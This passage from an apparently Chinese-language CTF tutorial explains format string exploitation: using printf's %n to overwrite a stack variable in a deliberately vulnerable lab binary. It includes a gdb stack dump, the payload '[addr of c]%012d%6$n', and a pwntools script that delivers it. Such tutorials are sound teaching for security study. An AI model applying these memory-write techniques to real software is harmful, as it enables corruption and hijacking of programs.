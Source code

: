 ```c
  }
  return 0;
}
```

而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的 payload

> ...[overwrite addr]....%[overwrite offset]$n

其中... 表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

### 覆盖栈内存

#### 确定覆盖地址

首先，我们自然是来想办法知道栈变量 c 的地址。由于目前几乎上所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们这里故意输出了 c 变量的地址。

#### 确定相对偏移

接下来，我们来确定一下存储格式化字符串的地址是 printf 将要输出的第几个参数 ()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。

```
[------------------------------------stack-------------------------------------]
0000| 0xffffd14c ("sbUV\bpUVd\321\377\377\002")
0004| 0xffffd150 --> 0x56557008 --> 0xa7025 ('%p\n')
0008| 0xffffd154 --> 0xffffd164 --> 0x315 
0012| 0xffffd158 --> 0x2 
0016| 0xffffd15c ("HbUV4PUV\025\003")
0020| 0xffffd160 ("4PUV\025\003")
0024| 0xffffd164 --> 0x315 
0028| 0xffffd168 --> 0xffffd1c8 --> 0xffffd28c --> 0xffffd43d ("SHELL=/bin/bash")
[------------------------------------------------------------------------------]
```

在0xffffd164处存着变量c的数值，0xffffd164相对 printf 函数的格式化字符串参数 0xffffd14c的偏移为0x18，即格式化字符串相当于 printf 函数的第 7个参数，相当于格式化字符串的第 6个参数。

#### 进行覆盖

这样，第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。payload 如下：

> [addr of c]%012d%6$n

addr of c的长度为4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。

```python
#!/usr/bin/python
from pwn import *
re = process('./a.out')
raw_addr=re.recvuntil('n',drop=True) 
c_addr = int(raw_addr,16)
print hex(c_addr)
payload = p32(c_addr) +b"%012d" + b'%6$n'
print payload
re.sendline(payload)
print re.recv()
re.interactive()
```
